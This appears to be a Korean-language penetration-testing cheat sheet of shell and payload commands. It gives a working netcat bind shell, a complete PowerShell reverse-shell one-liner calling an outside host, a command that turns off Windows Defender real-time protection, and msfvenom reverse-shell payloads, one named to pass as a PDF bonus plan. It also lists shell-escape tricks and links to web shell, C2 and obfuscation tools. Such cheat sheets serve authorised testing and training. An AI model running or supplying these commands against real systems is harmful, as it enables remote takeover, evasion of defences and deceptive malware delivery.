 # 1.Bind Shells

### 서버 - Bash 셸을 TCP 세션에 바인딩
```rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 192.168.1.1 7777 > /tmp/f```<br/>
```nc -nv 192.168.1.1 7777```

<br/><br/>
# 2.Reverse Shell

### 클라이언트 - PowerShell을 사용하여 연결
```nc -lvnp 443```<br/>
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.1.1',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

#### Windows Defender 비활성화(PowerShell 연결 차단될 경우)
```Set-MpPreference -DisableRealtimeMonitoring $true```

<br/><br/>
# 3.Payload

### MSFvenom Payload 제작 (Linux용)
```msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f elf > createbackup.elf```

### MSFvenom Payload 제작 (Windows용)
```msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f exe > BonusCompensationPlanpdf.exe```

### Search Exploit
```searchsploit 50064.rd```<br/>
경로 출력) ```searchsploit -p 50064.rd```


### Payload 생성 Resource
| **Resource**                            | **설명**                                                                                                                                                                                      |
| --------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `MSFVenom & Metasploit-Framework` | [소스](https://github.com/rapid7/metasploit-framework) MSF는 모든 펜테스터 툴킷에 매우 다재다능한 도구입니다. 호스트를 열거하고, 페이로드를 생성하고, 공개 및 사용자 지정 익스플로잇을 활용하고, 호스트에서 익스플로잇 후 작업을 수행하는 방법으로 사용됩니다. 스위스 군용 칼이라고 생각하세요. |
| `Payloads All The Things`         | [소스](https://github.com/swisskyrepo/PayloadsAllTheThings) 여기에서는 페이로드 생성과 일반적인 방법론에 대한 다양한 리소스와 치트 시트를 찾을 수 있습니다.                                                                            |
| `Mythic C2 Framework`             | [소스](https://github.com/its-a-feature/Mythic) Mythic C2 프레임워크는 Metasploit에 대한 대안으로, 고유한 페이로드 생성을 위한 명령 및 제어 프레임워크이자 툴박스입니다.                                                                 |
| `Nishang`                         | [소스](https://github.com/samratashok/nishang) 니샹은 Offensive PowerShell 임플란트와 스크립트의 프레임워크 컬렉션입니다. 여기에는 모든 펜테스터에게 유용할 수 있는 많은 유틸리티가 포함되어 있습니다.                                                 |
| `Darkarmour`                      | [소스](https://github.com/bats3c/darkarmour) Darkarmour는 Windows 호스트를 상대로 사용하기 위해 난독화된 바이너리를 생성하고 활용하는 도구입니다.                                                                                 |

### TTY 쉘 생성
```python -c 'import pty; pty.spawn("/bin/sh")'```

### 대화형 쉘(python 없는 경우)
```/bin/sh -i```<br/>
```perl —e 'exec "/bin/sh";'```<br/>
```perl: exec "/bin/sh";```<br/>
```ruby: exec "/bin/sh"```<br/>
```lua: os.execute('/bin/sh')```<br/>
```awk 'BEGIN {system("/bin/sh")}'```<br/>
```find . -exec /bin/sh \; -quit```<br/>
```vim -c ':!/bin/sh'```

### sudo 권한 확인
```sudo -l```

<br/><br/>
# 4.WebShell

### Laudanum (all)
[Laudanum](https://github.com/jbarcia/Web-Shells/tree/master/laudanum) ```/usr/share/laudanum/```

### Antak Webshell (aspx)
[Nishang Antak](https://github.com/samratashok/nishang/tree/master/Antak-WebShell) ```/usr/share/nishang/Antak-WebShell```

### wwwolf-php-webshell (php)
[WhiteWinterWolf PHP Webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)
